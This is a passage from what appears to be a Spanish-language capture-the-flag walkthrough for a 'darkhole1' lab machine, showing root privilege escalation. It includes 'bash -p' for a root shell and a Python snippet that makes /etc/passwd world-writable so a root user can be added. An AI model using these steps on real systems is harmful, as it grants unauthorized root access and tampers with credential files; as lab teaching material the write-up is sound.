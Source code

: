 Ahora ejecuto una instancia de bash

```sh
bash -p
```

![alt text](../assets/images/darkhole1/image-47.png)

Y consigo obtener el acceso con permisos de root.

![alt text](../assets/images/darkhole1/image-48.png)

#### Escalada de privilegios a root – Tecnica # 02 – PASSWD file

Puedo añadir un usuario al fichero /etc/passwd para poder acceder con permisos root al sistema

Comandos:

```sh
#file.py 
import os;
os.system('chmod 777 /etc/passwd')
```

![alt text](../assets/images/darkhole1/image-49.png)
